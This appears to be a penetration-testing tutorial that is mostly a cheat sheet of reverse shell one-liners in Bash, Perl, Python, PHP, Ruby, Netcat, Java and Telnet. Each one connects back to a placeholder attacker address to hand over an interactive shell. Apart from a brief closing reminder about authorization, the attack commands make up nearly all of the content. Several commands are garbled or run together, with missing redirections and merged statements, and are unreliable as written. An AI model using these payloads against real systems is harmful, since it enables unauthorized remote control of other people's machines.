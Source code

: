 ## Introduction

In the realm of penetration testing, a reverse shell can be a crucial tool. If you’re fortunate enough to discover a command execution vulnerability during a penetration test, you’ll likely want an interactive shell soon after. If adding a new account, SSH key, or .rhosts file and logging in isn’t possible, your next step is probably to throw back a reverse shell or bind a shell to a TCP port. This guide focuses on the former.

* * *

### Reverse Shell Techniques

The options for creating a reverse shell are limited by the scripting languages installed on the target system. However, you could also upload a binary program if you’re well-prepared. The examples shown are tailored to Unix-like systems. Some of the examples should also work on Windows if you substitute “/bin/sh -i” with “cmd.exe”. Each method aims to be a one-liner that you can copy/paste. They’re quite short lines, but not very readable.

#### Creating a Reverse Shell with Bash

Some versions of bash can send you a reverse shell (this was tested on Ubuntu 18.04)

```html
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

Or

```html
exec /bin/bash 0&0 2>&0
```

Or

```html
0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196
```

Or

```html
exec 5<>/dev/tcp/attackerip/4444cat <&5 | while read line; do $line 2>&5 >&5; done
```

Or

```html
while read line 0<&5; do $line 2>&5 >&5; done
```

#### Creating a Reverse Shell with Perl

Here’s a short, feature-free version that depends on /bin/sh:

```html
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Perl reverse shell that does not depend on /bin/sh:

```html
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

If the target system is running Windows use the following one-liner:

```html
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

#### Creating a Reverse Shell with Python

This was tested under Linux / Python 2.7

```html
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### Creating a Reverse Shell with PHP

This code assumes that the TCP connection uses file descriptor 3. This worked on the most tested system. If it doesn't work, try 4, 5, 6…

```html
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### Creating a Reverse Shell with Ruby

Short version that depends on /bin/sh:

```html
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

Longer Ruby reverse shell that does not depend on /bin/sh:

```html
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

If the target system is running Windows use the following one-liner:

```html
ruby -rsocket -e 'c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

#### Creating a Reverse Shell with Netcat

Netcat is rarely present on production systems and even if it is there are several versions of Netcat, some of which don’t support the -e option.

```html
nc -e /bin/sh 10.0.0.1 1234
```

Others possible Netcat reverse shells, depending on the Netcat version and compilation flags:

```html
nc -c /bin/sh attackerip 4444
```

Or

```html
/bin/sh | nc attackerip 4444
```

Or

```html
rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p
```

#### Creating a Reverse Shell with Java

Always present when you need it, the "Java" language can also be a very good solution to establish a reverse shell.

```html
r = Runtime.getRuntime()p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])p.waitFor()
```

#### Creating a Reverse Shell with Telnet

Of course, you can also use Telnet as an alternative for Netcat:

```html
rm -f /tmp/p; mknod /tmp/p p &&&& telnet attackerip 4444 0/tmp/p
```

Or

```html
telnet attackerip 4444 | /bin/bash | telnet attackerip 4445
```

* * *

## Conclusion

In this tutorial, we explored various methods for creating reverse shells during penetration tests. We covered examples in different scripting languages, including Bash, Perl, Python, PHP, Ruby, Netcat, Java, and even Telnet. These one-liners allow you to establish an interactive shell on the target system, even when adding new accounts or SSH keys isn’t feasible.

Remember to use these techniques responsibly and only in authorized scenarios. Always obtain proper permissions before attempting any penetration testing activities. Happy hacking!